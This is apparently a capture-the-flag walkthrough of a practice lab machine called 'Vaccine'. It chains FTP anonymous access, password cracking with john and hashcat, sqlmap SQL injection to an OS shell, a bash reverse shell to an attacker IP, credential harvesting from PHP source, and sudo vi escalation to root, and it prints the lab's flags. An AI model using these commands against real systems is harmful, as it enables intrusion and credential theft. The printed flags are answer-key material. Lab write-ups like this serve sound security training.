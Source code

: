 ```yaml
---
layout: default
title: Vaccine
---
```


### Recon

first we starts with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

As we can see, there are 3 open ports, port `21` for ftp, port `22` for ssh, and port `80` for http.
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.63
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Login annonymosuly to ftp
We can see we can login anonymously to ftp, and download the `backup.zip` from there, using the `get` command.
```bash
ftp anonymous@$target
```

![download backup.zip](image-1.png)

### Extract files from backup.zip
When we try to unzip `backup.zip` using the command `unzip backup.zip`, we can see it asks for a password. 
Let's try to crack it using *john the ripper*.

First, we need to transfroms it from `zip` to `hash`, using the command:
```bash
zip2john backup.zip > hashes
```
Then, we can crack it using john:
```bash
john hashes
```
At the end, we can reveal the password using the flag `--show`, like in *hashcat*.
The password is `741852963`.

![get password for zip](image-2.png)

### Crack the admin password for the login portal

Now, after we unzip the password protected zip, we can see there are two files, `index.php` and `styles.css`. 
When we read the `index.php`, we can see these lines:

![read index.php](image-3.png)
So, the username for the login portal on the webserver is `admin`, and the md5 hash of the password is `2cb42f8734ea607eefed3b70af13bbd3`.

We can use `hashcat` to crack the password, the `-m 0` flag is to specify the hash type, which is md5, and the `-a 0` is to specify the attack type, which is dictionary attack.
```bash
hashcat -a 0 -m 0 2cb42f8734ea607eefed3b70af13bbd3 -O  /usr/share/wordlists/rockyou.txt
``` 
And we get the password:
```
2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

So, let's login:
![logged in](image-4.png)

### Using Sql Injection to get shell

When we give the search this value `'` we get error, this line:
```
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```
using `sqlmap` we can see it is vulnerable to sql injection. We can use the `--os-shell` flag to get shell over the machine, this is the command, we use `--batch` to avoid all the questions. Don't forget to supply your cookie, you need to be authenticated as an admin.
```bash
sqlmap -u http://$target/dashboard.php?search=* --cookie="PHPSESSID=rofujd2i9ic630lkm78a1g3llf" --batch --os-shell
```
Okay, first we want to achieve the reverse shell, using this command:
```bash
bash -c "/bin/sh -i >& /dev/tcp/10.10.14.63/770 0>&1"
```

Then, we'll paste those commands in the shell we got:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Search for `user.txt` using this command:
```bash
find / -name "user.txt" 2>/dev/null
```

and reading the user flag from `/var/lib/postgresql/user.txt` 
```bash
postgres@vaccine:~$ find / -name "user.txt" 2>/dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:~$ cat /var/lib/postgresql/user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

We remember there is a webserver on port `80`, so we can go to `/var/www/html` and view the content the `.php` files, maybe we'll find some credentials:
```bash
postgres@vaccine:/var/www/html$ ls
bg.png  dashboard.css  dashboard.js  dashboard.php  index.php  license.txt  style.css
postgres@vaccine:/var/www/html$ cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>

...

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

```
alright, the password for the user `postgres` is `P@s5w0rd!`, we can use it to connect via `ssh`, as we saw in the beginning that port `22` is open:
```bash
ssh postgres@$target
```

### Escalate privilege

After connecting via `ssh`, we start looking for PE. First, we'll check for commands we can run as an root, using:
```
sudo -l
```
![sudo -l](image-5.png)

As we can see, we can execute only one command as root:
```bash
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Okay, so let's run this command:
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can go to GTFobins, to this link https://gtfobins.github.io/gtfobins/vi/#sudo, and see this:
```
It can be used to break out from restricted environments by spawning an interactive system shell.
```

```
:set shell=/bin/sh
:shell
```

Let's execute those commands, inside the `vi`, 
we managed to spawn a shell as root, :) 

``` 
# id
uid=0(root) gid=0(root) groups=0(root)
# find / -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
# 
```

![root flag](image-6.png)

**User Flag:*****`ec9b13ca4d6229cd5cc1e09980965bf7`***

**Root Flag:*****`dd6e058e814260bc70e9bbdef2715849`***
